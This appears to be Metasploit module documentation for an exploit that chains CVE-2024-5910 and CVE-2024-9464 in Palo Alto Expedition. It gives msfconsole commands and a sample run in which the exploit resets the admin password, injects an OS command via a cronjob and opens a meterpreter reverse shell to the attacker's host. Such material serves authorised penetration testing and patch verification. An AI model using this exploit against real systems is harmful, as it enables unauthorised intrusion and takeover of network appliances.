 ## Vulnerable Application

This module exploits two vulnerabilities in Palo Alto Expedition to obtain a remote shell. The first vulnerability, CVE-2024-5910, allows to
reset the password of the admin user. The second vulnerability, CVE-2024-9464, is an authenticated OS command injection.

When credentials are provided, this module will only exploit the second vulnerability. If no credentials are provided, the module will
first try to reset the admin password and then perform the OS command injection. In a default installation, commands will get executed in
the context of www-data.

Note: If no credentials are available, the module will attempt to reset the admin password. For this, the parameter RESET_ADMIN_PASSWD must
explicitly be set to true.

## Testing

The software can be obtained from
[the vendor](https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool).

Installation instructions are available [here]
(https://live.paloaltonetworks.com/t5/expedition-articles/expedition-documentation/ta-p/215619?attachment-id=13781).

**Successfully tested on**

- Expedition v1.2.91 on Ubuntu Server 20.04.1.

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > msf6 > use exploit/linux/http/paloalto_expedition_rce 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/paloalto_expedition_rce) > set RHOSTS <IP>
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit
```

You should get a meterpreter session in the context of `www-data`.

## Options

### USERNAME
Username for authentication, if available.

### PASSWORD
Password for the associated user.
### WRITABLE_DIR
A writable location for the exploit to stage the command payload.

### RESET_ADMIN_PASSWD
If the username and password are not specified, the module will attempt to reset the admin password to the default password `paloalto`. This
is also done to authenticate and retrieve the exact version information, in case no credentials have been provided. As this alters the
configuration of the target system, the `RESET_ADMIN_PASSWD` parameter serves as a safeguard that must explicility set to true before the
reset endpoint is being invoked.

## Scenarios

Running the exploit against Expedition v1.2.91 on Ubuntu Server 20.04.1, using curl or wget as a fetch command, should result in an output
similar to the following:

```
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Admin password successfully restored to default value paloalto (CVE-2024-5910).
[+] Successfully authenticated
[*] Version retrieved: 1.2.91
[*] Vulnerable to CVE-2024-5910 and appears to be vulnerable to CVE-2024-9464.
[+] The target appears to be vulnerable.
[*] Adding a new cronjob...
[*] Injecting OS command...
[*] Sending stage (3045380 bytes) to 192.168.137.203
[*] Meterpreter session 1 opened (192.168.137.204:4444 -> 192.168.137.203:49006) at 2024-10-13 19:30:10 -0400
[*] cleanup file: /tmp/j
[*] Check thy shell.

meterpreter > sysinfo 
Computer     : 192.168.137.203
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
